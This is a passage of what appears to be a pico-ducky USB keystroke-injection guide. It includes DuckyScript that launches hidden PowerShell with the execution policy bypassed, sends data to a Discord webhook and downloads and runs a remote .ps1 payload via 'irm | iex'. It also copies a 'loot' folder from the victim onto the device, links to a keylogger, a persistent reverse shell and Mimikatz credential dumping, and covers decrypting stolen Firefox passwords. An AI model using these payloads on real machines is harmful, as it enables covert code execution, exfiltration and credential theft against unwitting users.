 #### Upload to Discord channel via a discord webhook

  ```
  STRING powershell -w h -ep bypass $discord='

  REM REQUIRED - Provide Discord Webhook - https://discordapp.com/api/webhooks/<webhook_id>/<token>
  DEFINE DISCORD example.com
  STRING DISCORD
  
  REM Reply example.com with YOUR LINK. The Payload should be a .ps1 script
  STRINGLN ';irm PAYLOAD | iex
  ```

#### Send file to Ducky-Pico Storage
- Files may also be stored onto the physical HID pico-ducky storage itself by checking the drive letter assigned to it in the target device file system and copying the files into the drive root directory.
  
  ```
  STRING $destinationLabel = "RPI-RP2"
  ENTER
  STRING $destinationLetter = Get-WmiObject -Class Win32_Volume | where {$_.Label -eq $destinationLabel} | select -expand name
  ENTER
  STRING move-item -Path C:\Windows\Temp\loot -Destination $destinationLetter
  ENTER  
  ```

Some more interesting payloads
- [Ducky KeyLogger](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/credentials/DuckyLogger)
- [Persistent ReverseShell Ducky](https://github.com/drapl0n/persistentReverseDucky/tree/main)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa) is an extremely powerful tool used within some payloads which is capable of extracting Windows user login credentials, hashes, keys, pin codes, tickets from the memory of `LSASS` (Local Security Authority Subsystem Service).
- The [P4wnP1](https://github.com/RoganDawes/P4wnP1) repository consists of several payloads/scripts for a USB attack platform based on Raspberry Pi Zero or Pi Zero W which may be modified to work with the Pico devices as well.

# Decrypting Passwords

Certain payloads are capable of extracting user credentials from the device storage/memory etc by performing very specific attacks. Often these credentials are extracted in the form of excrypted hashes but it is still possible to decrypt and reveal the plaintext login credentials from them via python scripts for example saved browser credentials.

## Firefox
**Firefox Decrypt** is a tool to extract passwords from profiles of Mozilla (Fire/Water)fox™, Thunderbird®, SeaMonkey® and derivates.

It can be used to recover passwords from a profile protected by a Master Password as long as the latter is known.
If a profile is not protected by a Master Password, passwords are displayed without prompt.
